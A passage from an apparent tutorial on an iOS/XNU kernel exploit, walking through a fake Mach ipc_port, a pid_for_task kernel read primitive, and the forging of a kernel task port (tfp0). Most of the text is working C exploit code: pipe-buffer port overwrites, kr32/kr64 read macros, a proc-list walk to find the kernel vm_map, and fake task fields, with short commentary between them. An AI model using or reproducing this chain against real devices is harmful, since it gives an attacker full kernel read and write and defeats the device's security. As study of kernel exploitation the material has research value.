    fakeport->ip_kobject = port_pipe_buffer + sizeof(kport_t);
```

Now, use the fake port to replace the first valid port in the pipe buffer.

Again, in SMAP mode, you must use the kernel address of `port_pipe_buffer`, not the userland fakeport address.

At this point, you have placed the fakeport in a valid port area, meaning you have full control over an `ipc_port`.

```c
// spraying worked, now the pipe buffer is filled with pointers to our target port
// overwrite the first pointer with our second pipe buffer, which contains the fake port
    write(pipefds[1], &port_pipe_buffer, 8);
```

### Receiving the Mach OOL Message

Port handles include rights information, so the manipulation you performed replaces the handle of the first port in the pipe buffer.

Therefore, receive the OOL message to regain the handle of the port you manipulated.

Recall that you recorded the remote port earlier,
so you can receive the OOL message you sent and read the manipulated port handle.

```c
// receive the message from fill_kalloc_with_port_pointers back, since that message contains a send right and we overwrote the pointer of the first port, we now get a send right to the fake port!
    struct ool_msg *msg = malloc(0x1000);
    ret = mach_msg(&msg->hdr, MACH_RCV_MSG, 0, 0x1000, p, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    if (ret) {
        free(msg);
        printf("[-] mach_msg() failed: %d (%s)\n", ret, mach_error_string(ret));
        goto err;
    }
    
    mach_port_t *received_ports = msg->ool_ports.address;
    mach_port_t our_port = received_ports[0]; // fake port!
    free(msg);
```

Now, instead of the previous target port handle, you have obtained the handle corresponding to the fakeport.

This is because when the kernel copies the OOL message to user space, it uses the CAST_MACH_PORT_TO_NAME macro function.

```c
// osfmk/mach/port.h:155
#define CAST_MACH_PORT_TO_NAME(x) ((mach_port_name_t)(uintptr_t)(x))
```

This macro cuts the upper 8 bytes of the `ipc_object` header in the `ipc_port` structure,
which corresponds to the first two members of the `ipc_object` structure.

```c
struct ipc_port {
    struct ipc_object ip_object;
    struct ipc_mqueue ip_messages; 
    // ...
};

struct ipc_object {
    ipc_object_bits_t io_bits; // 4B
    ipc_object_refs_t io_references; // 4B
    lck_spin_t	io_lock_data;
};
```

So, the port handle is actually composed of the `io_bits` and `io_references` values in the `ipc_port` structure.

Now you have full control over the `ipc_port` and its handle.

However, this `ipc_port` does not have a `vm_map`, so it is not yet a valid task port..

### Kernel Read Primitive Using pid_for_task

The `pid_for_task` function takes a process port as an argument and returns the PID of the corresponding process.

The implementation principle is:

```c
int pid = get_ipc_port(port)->task->bsd_info->p_pid;
```

The essence of structure member access is offset calculation.

```c
int pid = *(*(*(get_ipc_port(port) + offset_task) + offset_bsd_info) + offset_pid)
```

Since you control the fakeport, you can change its `bsd_info` to `addr - offset_pid`.

Then, `(*(get_ipc_port(port) + offset_task) + offset_bsd_info) = addr - offset_pid`, so the formula is equivalent to:

```c
int pid = *(addr - offset_pid + offset_pid) = *addr
```

With this method, we can reliably read 4 bytes of data at the `addr` location, thereby achieving a fully functional kernel read primitive.

```c
uint64_t *read_addr_ptr = (uint64_t *)((uint64_t)fake_task + 0x380);   //p/x offsetof(struct task, bsd_info)

    //0x60 = p/x offsetof(struct proc, p_pid)
#define kr32(addr, value)\
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);\
    *read_addr_ptr = addr - 0x60;\  
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);\
    value = 0x0;\
    ret = pid_for_task(our_port, (int *)&value);
```

First, modify `bsd_info` via the pipe buffer, then pass the fakeport handle to `pid_for_task` to read 4 bytes of data from the specified address.

By combining multiple `kr32` calls, you can read arbitrary-length data from the kernel.

You can combine them to create an 8-byte kernel read macro:

```c
    uint32_t read64_tmp;
#define kr64(addr, value)\
    kr32(addr + 0x4, read64_tmp);\
    kr32(addr, value);\
    value = value | ((uint64_t)read64_tmp << 32)
```

### Obtaining kernel vm_map and Creating tfp0 Port

Based on the current process's task_port, you can enumerate all processes, which requires hundreds of kernel reads.

Therefore, use the reliable kernel read primitive via pid_for_task explained above.

`proc` is a doubly linked list, so you can traverse from the current process to `pid=0`.
Then, get the `vm_map` from the kernel task.

```c
uint64_t struct_task;
kr64(self_port_addr + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT), struct_task);
if (!struct_task) {
    printf("[-] kernel read failed!\n");
    goto err;
}

printf("[!] READING VIA FAKE PORT WORKED? 0x%llx\n", struct_task);
printf("[+] Let's steal that kernel task port!\n");

// tfp0!

uint64_t kernel_vm_map = 0;

while (struct_task != 0) {
    uint64_t bsd_info;
    kr64(struct_task + koffset(KSTRUCT_OFFSET_TASK_BSD_INFO), bsd_info);
    if (!bsd_info) {
        printf("[-] kernel read failed!\n");
        goto err;
    }
    
    uint32_t pid;
    kr32(bsd_info + koffset(KSTRUCT_OFFSET_PROC_PID), pid);
    
    if (pid == 0) {
        uint64_t vm_map;
        kr64(struct_task + koffset(KSTRUCT_OFFSET_TASK_VM_MAP), vm_map);
        if (!vm_map) {
            printf("[-] kernel read failed!\n");
            goto err;
        }
        
        kernel_vm_map = vm_map;
        break;
    }
    
    kr64(struct_task + koffset(KSTRUCT_OFFSET_TASK_PREV), struct_task);
}
```

Write the obtained kernel `vm_map` to the fakeport, and now you have a legitimate kernel task port!

```c
read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);
    
fake_task->lock.data = 0x0;
fake_task->lock.type = 0x22;
fake_task->ref_count = 100;
fake_task->active = 1;
fake_task->map = kernel_vm_map;
*(uint32_t *)((uint64_t)fake_task + koffset(KSTRUCT_OFFSET_TASK_ITK_SELF)) = 1;

if (SMAP) {
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
}
```

From this point, you have the tfp0 port,
and you can use mach_vm related memory functions to verify it.

```c
    tfp0 = our_port;

    uint64_t addr = kalloc(8);
    
    if (!addr) {
        printf("[-] seems like tfp0 port didn't work?\n");
        goto err;
    }
    
    printf("[*] allocated: 0x%llx\n", addr);
    kwrite64(addr, 0x4141414141414141);
    uint64_t readb = kread64(addr);
    kfree(addr, 8);

    printf("[*] read back: 0x%llx\n", readb);
```